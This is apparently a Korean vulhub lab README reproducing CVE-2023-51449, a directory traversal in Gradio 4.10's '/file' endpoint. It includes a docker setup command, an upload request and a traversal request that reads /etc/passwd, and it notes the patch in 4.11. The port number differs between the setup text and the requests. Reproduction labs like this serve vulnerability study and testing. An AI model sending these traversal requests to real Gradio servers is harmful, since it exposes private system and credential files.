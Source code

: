 # Gradio /file Interface Directory Traversal (CVE-2023-51449)

[中文版本(Chinese version)](https://github.com/vulhub/vulhub/blob/master/gradio/CVE-2023-51449/README.zh-cn.md)

**Gradio**는 사용자가 프론트트엔드 코드를 작성하지 않고도 머신 러닝 모델을 위한 시각적 웹 인터페이스를 빠르게 구축할 수 있는 Python 라이브러리이다.

Gradio 4.11 이하 버전에서는 인증이 활성화되지 않은 경우, 공격자가 파일 경로만 알고 있다면 공개 URL을 통해 Gradio 애플리케이션을 실행하는 서버에 존재하는 임의의 파일에 액세스할 수 있다.

참고 문헌

- [gradio-app/gradio#6833](https://github.com/gradio-app/gradio/pull/6833)
- [gradio-app/Make the `/file` secure against file traversal attacks and SSRF](https://github.com/gradio-app/gradio/security/advisories/GHSA-6qm2-wpxq-7qh2)

## 환경 설정 (Environment Setup)

Gradio 4.10.0으로 빌드된 애플리케이션을 시작하기 위해 다음 명령을 실행해야 한다.

```
docker compose up -d
```

서버가 시작되면 기본적으로 인증(Authentication)이 비활성화되어 있다. 
애플리케이션은 브라우저에서 `http://[your IP]:7680` 주소로 접속할 수 있다. 

## 취약점 재현 (Vulnerability Reproduction)

### 1. 파일 업로드 및 파일 경로 확보 
업로드 인터페이스를 사용하여 파일을 서버에 업로드하고, 업로드된 파일의 접근 가능한 경로를 확인 및 획득한다. 

```
POST /upload HTTP/1.1
Host: localhost:7860
Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311

-----------------------------250033711231076532771336998311
Content-Disposition: form-data; name="files";filename="okmijnuhbygv"
Content-Type: application/octet-stream

123456
-----------------------------250033711231076532771336998311--
```

[사진]

### 2. 디렉터리 트래버설을 이용한 민감 파일 접근 
접근 가능한 파일 경로가 확보되면 `/file` 인터페이스와 디렉터리 트래버설을 사용하여 `/etc/passwd`와 같은 서버 내 민감 파일을 읽을 수 있다. 

```
GET /file=/tmp/gradio/7c4a8d09ca3762af61e59520943dc26494f8941b/../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: localhost:7860
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36 Edg/100.0.1185.36
Connection: close
Accept-Encoding: gzip
```

[사진]

## 요약
- 인증이 비활성화된 상태에서 `/file` 엔드포인트가 디렉터리 트래버설 공격에 취약하다.
업로드된 파일 경로를 활용하여 서버 내 임의 파일에 접근할 수 있다.
Gradio 4.11 이상 버전에서는 해당 취약점이 패치되었다. 


